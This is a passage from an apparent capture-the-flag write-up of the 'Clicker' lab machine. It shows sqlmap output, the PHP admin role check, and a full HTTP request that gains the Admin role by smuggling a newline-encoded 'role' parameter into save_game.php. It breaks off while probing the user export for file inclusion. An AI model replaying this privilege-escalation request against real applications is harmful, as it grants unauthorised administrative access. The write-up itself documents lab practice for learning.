[11:40:52] [INFO] testing 'Oracle AND time-based blind'
[11:40:54] [INFO] testing 'Generic UNION query (NULL) - 1 to 10 columns'
[11:40:58] [WARNING] URI parameter '#2*' does not seem to be injectable
[11:40:58] [CRITICAL] all tested parameters do not appear to be injectable. Try to increase values for '--level'/'--risk' options if you wish to perform more tests. If you suspect that there is some kind of protection mechanism involved (e.g. WAF) maybe you could try to use option '--tamper' (e.g. '--tamper=space2comment') and/or switch '--random-agent'
[11:40:58] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 1 times

[*] ending @ 11:40:58 /2023-12-04/
```

Ok so here I had to check for tips and apparently the SQLi on the Savegame is right, as we can see the data get's save which means we have write permission on the DB and we can potentially write values. But the specific part is the Role=Admin that can be used to gain access to admin.php?

&nbsp;

```
──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/Clicker/clicker.htb]
└─# cat admin.php                                                                                                                                                                                                                                            
<?php
session_start();
include_once("db_utils.php");

if ($_SESSION["ROLE"] != "Admin") {
  header('Location: /index.php');
  die;
}
?>
```

Adding the Role=Admin as parameter seems like we are getting a error attempt:



But after playing around with /n (new line) we can eventually save the Admin role to us?

```
GET /save_game.php?clicks=62&level=0&role%0a=Admin HTTP/1.1
Host: clicker.htb
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://clicker.htb/play.php
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=ac0e5a6a3a50b5639e69ae6d8cd49f40
Connection: close
```



And now loggin out and in again we can login to the portal:



Now moving to Administrations we can export the list of the users as txt,html or json file, wondering if this might be vulnerable to a LFI maybe?



So catching the export we can get the message about the export in the location field:

